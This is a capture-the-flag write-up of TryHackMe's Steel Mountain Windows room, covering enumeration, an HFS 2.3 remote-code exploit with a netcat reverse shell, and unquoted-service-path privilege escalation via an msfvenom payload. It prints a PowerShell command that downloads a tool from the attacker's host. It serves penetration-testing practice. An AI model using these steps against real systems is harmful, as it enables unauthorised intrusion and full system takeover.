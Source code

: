 ```yaml
---
title: Steel Mountain (Try Hack Me)
author: Robin Goyal
date: 2021-09-19 18:15 -0400
categories: [Cybersecurity, Writeups]
tags: [thm, ctf, writeup]
hidden: true
image:
  src: https://tryhackme-images.s3.amazonaws.com/room-icons/c9030a2b60bb7d1cf4fcb6e5032526d3.jpeg
---
```


I am currently in the process of completing these boxes on Try Hack Me again in an effort to document my experience, reinforce my knowledge of the topics, and improve my ability to concisely communicate the pentest lifecycle.

## Scenario

**Title**: Steel Mountain

**Description**: Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access.

**Free/Subscriber**: Subscriber

**Difficulty**: Easy

## Enumeration

First things first, let's perform an nmap scan to understand more about the target and what services are available.

![nmap initial](/assets/img/posts/thm-steelmountain/nmap-initial.jpg)

There are a ton of available services! Listing them out:
- HTTP (80, 8080)
- NetBIOS/SMB (135, 139, 445)
- RDP (3389)
- RPC (49152, 49153, 49154, 49155, 49156, 49163)

From the available services and the type of software being served (i.e IIS), we can say with 100% confidence that this is a Windows OS target.

### HTTP (port 80)

The first web application that we'll encounter is served by a Microsoft IIS 8.5 service. I'm fairly confident that the current version is 10.X so this is outdated.

Before trying to exploit the specific version of IIS, let's explore the web application a bit.

![port 80 landing](/assets/img/posts/thm-steelmountain/80-landing-page.jpg)

The landing page is just an image of an employee at Steel Mountain. Viewing the page source, we know the employee's name is Bill Harper as that is the name of the image.

However, there is no other information leaked in the source code, no robots.txt file, and no hidden directories through directory enumeration.

Let's explore the web application being served at port 8080.

### HTTP (port 8080)

This web application is being served by HttpFileServer http 2.3. This does not look like a typical Apache, nginx, IIS, etc service that we usually encounter.

![hfs 2.3 landing](/assets/img/posts/thm-steelmountain/8080-landing.jpg)

Clicking on the HttpFileServer 2.3 link at the bottom left, we're redirected to the Rejetto vendor that provides the software.

The product is an HTTP File Server which allows you to send and receive files over the network and it is a "right out of the box" product.

Let's see if there are any available exploits for this version of HFS.

![hfs searchsploit](/assets/img/posts/thm-steelmountain/hfs-searchsploit.jpg)

## Initial Foothold

Many entries in the exploitdb database related to a RCE vulnerability in this version of HFS. Let's copy over the Python script ([39161.py](https://www.exploit-db.com/exploits/39161)) to our local directory and understand the exploit.

The script requires a bit of modification specifying the IP address of our attacker system as well as the port that the victim system will connect back to with a reverse shell.

The payload will download the nc.exe binary from our attacker system. To pull off the above attack, we'll need to:
1. Download the nc.exe binary from https://github.com/int0x33/nc.exe/blob/master/nc64.exe
2. Initialize a Python web server on port 80 to serve the netcat binary
3. Initialize a netcat listener on port 8000 and update the script with this port

Executing the script providing the arguments for the target's IP address and port, we receive our reverse shell!

![reverse shell](/assets/img/posts/thm-steelmountain/reverse-shell.jpg)

We have a shell to STEELMOUNTAIN as Bill! We can find his flag at C:\Users\bill\Desktop\bill.txt, submit this flag, and proceed to some privesc.

## Privilege Escalation

Performing some basic enumeration searching for files did not lead to anything.

With very little experience with Windows exploitation or privilege escalation, I'll resort to using the WIndows Privilege Escalation Script located in the [PEASS-ng](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe) repository.

Serving this file from our attacker system's simple Python server, we'll transfer it over to the attacker system using the following command:

`powershell -c "curl http://10.6.5.103/winPEASx64.exe -OutFile winpeas.exe"`

This command will save the file in the directory that the command was executed from. Running the privilege escalation script, one thing vaguely stands out from experience with Windows targets through HTB.

![unquoted service vuln](/assets/img/posts/thm-steelmountain/unquoted-service-vuln.jpg)

This service is unquoted and contains a space. If we are able to write to that directory as Bill and start/stop the service, we could place a malicious payload to connect back to our attacker system.

The way Windows service managers searches for the binary with a space in the path is that it'll search for Advanced.exe when it encounters `C:\Program Files (x86)\IObit\Advanced` and if it does not find Advanced.exe, it continues down the path.

If we can inject a reverse shell payload generated by msfvenom as Advanced.exe, we can restart the AdvancedSystemCareService9 service and obtain SYSTEM privileges [^service-privesc].

Let's generate the malicious payload using msfvenom.

![msfvenom](/assets/img/posts/thm-steelmountain/msfvenom-advanced-exe.jpg)

Now, we'll need to configure a web server to transfer the Advanced.exe payload over to the target system.

![msfvenom](/assets/img/posts/thm-steelmountain/advanced-exe-malicious-payload.jpg)

The location of where we save the Advanced.exe file is important. Since the path for the AdvancedSystemCareService9 service is unquoted and contains a space, the service manager will prioritize Advanced.exe over the "Advanced SystemCare" directory and choose that as the executable.

All that's left is to stop the AdvancedSystemCareService9 service and start it. Before we do that, let's initialize a netcat listener on port 5555.

![system shell](/assets/img/posts/thm-steelmountain/system-shell.jpg)

Awesome! All we need to do is obtain the root flag at C:\Users\Administrator\Desktop\root.txt and submit the flag to complete this room.

## Reflection

I haven't had much experience with Windows systems through THM so it makes me uncomfortable to try to navigate the CMD or Powershell terminal but this room was a great way to ease into the Windows environment.

The privilege escalation was particularly interesting. It is an incredibly easy mistake to make as a system administrator and configure incorrectly. This room also provides the opportunity to use an exploit that is not incredibly difficult to modify to obtain that experience of manual exploitation (OSCP...).

Once again, this is a fantastic room and unfortunately, it requires a Subscription to THM. However, I wholeheartedly recommend a subscription to this platform as there is fantastic content available here.

## Useful Commands

### Powershell Curl File

Execute a powershell command from within CMD prompt to download a file from an attacker system.

`powershell -c "curl http://10.6.5.103/winPEASx64.exe -OutFile winpeas.exe"`

## References

[^service-privesc]: <https://pentestlab.blog/2017/03/09/unquoted-service-path/>
